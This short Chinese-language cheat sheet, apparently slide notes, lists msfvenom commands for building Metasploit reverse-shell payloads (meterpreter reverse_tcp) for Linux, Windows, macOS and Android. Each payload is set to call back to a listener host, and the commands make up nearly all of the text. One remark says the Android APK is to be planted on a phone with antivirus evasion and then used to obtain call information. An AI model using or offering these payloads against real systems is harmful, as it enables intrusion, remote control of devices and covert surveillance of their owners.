

# 各平台payload生成
Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.149.147 LPORT=1123 -a x86 --platform Linux -f elf > shell.elf (使用的是kali， 自己日自己) ./ shell.elf  运行
Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 -f exe > shell.exe
Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
Android
msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 -f raw > shell.apk
将shell.apk 安装到手机中，植入的时候需要做免杀，以及需要权限 成功以后可以获取通话信息。。。
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 R > test.apk